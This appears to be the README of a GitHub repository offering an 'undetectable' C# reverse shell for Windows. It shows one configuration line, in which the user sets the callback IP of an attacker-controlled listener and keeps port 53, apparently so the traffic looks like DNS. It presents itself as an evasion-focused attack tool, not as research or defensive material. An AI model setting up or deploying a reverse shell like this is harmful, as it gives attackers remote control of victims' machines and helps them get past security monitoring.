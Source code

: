 # reverse-shell-csharp
Undetectable Reverse Shell with C# by Windows!
<br><br><br>
# Change your listener IP here :
<pre>udpClient.Connect("111.111.1.111", 53); // Write your ip but don't change the port!
